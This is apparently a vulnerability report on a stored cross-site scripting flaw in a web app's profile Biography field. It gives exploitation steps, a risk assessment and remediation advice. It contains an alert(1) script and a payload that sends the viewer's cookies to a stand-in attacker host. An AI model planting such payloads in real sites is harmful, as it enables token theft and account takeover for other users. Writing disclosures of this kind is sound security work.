





# Description

Stored Cross-Site Scripting (CWE-79) in the user-profile **Biography** field. Input submitted via `POST /account/settings/` (the *Change Biography* action) is persisted without sanitisation and later rendered raw on the public profile page `GET /account/profile/<username>/`. Any JavaScript stored in the biography executes in the browser of **every visitor** who views that profile — including administrators.

Unlike the reflected shop-search XSS, this payload is persistent and victim-targeting is passive: the attacker simply waits for others to view the profile.

# Exploitation

| Step | Action | Result |
|------|--------|--------|
| 1 | Log in and open `/account/settings/` → *Change Biography*. | Authenticated session. |
| 2 | Store a payload such as `<script>alert(1)</script>` and save. | Biography persisted verbatim. |
| 3 | Visit `/account/profile/<username>/`. | The script executes for anyone viewing the profile. |

# PoC

**PoC 1 — proof of execution (`alert(1)`):**

The payload is saved from the settings page and fires on the public profile:







**PoC 2 — cookie exfiltration:**

A realistic payload steals the CSRF cookie of any viewer (the `sessionid` cookie is `HttpOnly` and not accessible to JavaScript, but the `csrftoken` cookie is readable):

```html
<script>fetch('https://attacker.example/c?t='+document.cookie)</script>
```





# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | CSRF-token theft and DOM data exfiltration from every profile viewer, including admins (`sessionid` is `HttpOnly`). |
| Integrity | Actions performed in the victim's session (account takeover when an admin views the profile). |
| Availability | Profile defacement / forced redirects. |

Overall severity: **Medium-High** — persistent, low-privilege to plant, high blast radius. Worm potential when chained with friend-request or notification flows that drive traffic to the profile.

# Remediation

1. **Escape on output** — render the biography with Django's default auto-escaping; remove the `` block wrapping user content.
2. **Sanitise on input** — if HTML must be allowed, run the value through an allow-list sanitiser (e.g., `bleach`) restricted to safe tags/attributes.
3. **Add a Content-Security-Policy** to contain any residual injection.
4. **Mark the CSRF cookie `HttpOnly`** (`CSRF_COOKIE_HTTPONLY = True`) so script cannot read it (the session cookie is already `HttpOnly` by default).

# Author
DaVinciCode
